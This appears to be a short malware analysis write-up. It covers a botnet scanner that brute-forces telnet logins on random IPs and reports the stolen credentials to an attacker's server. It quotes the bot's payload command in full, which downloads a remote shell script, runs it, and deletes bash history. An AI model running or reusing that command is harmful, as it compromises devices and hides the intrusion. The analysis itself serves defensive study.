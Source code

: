 ![alt text](img/Scanner1.png)

Although we made some assumptions with some pieces of code, strings, functions, and messages as well as the whole context of the malware.
- This code is based on a state machine where if the code on the first state runs successfully then with the function advance_telstate() it runs the next state, and if not reset_telstate() restarts the state machine to state 0.
- The first 7(0-6) states seem to try to connect with a telnet service of a random public IP address.
- Then it tries to brute-force the login credentials of the telnet. 
- When it's successful it sends to the attacker's server the information (IP, port, username, and password)
- Then it sends the following payload to the connected machines `cd /tmp;busybox curl 192.168.160.143/a.sh; chmod 777; sh a.sh;rm -rf ~/.bash_history `.

We tried to curl the `a.sh` to understand it but we just got the following error.

![alt text](img/ash.png)\
We suppose that this a.sh is something similar to the malware found in ansibled, infecting the machine and giving the attacker a chance to remotely connect to the machine and then the machine helping spread the virus.
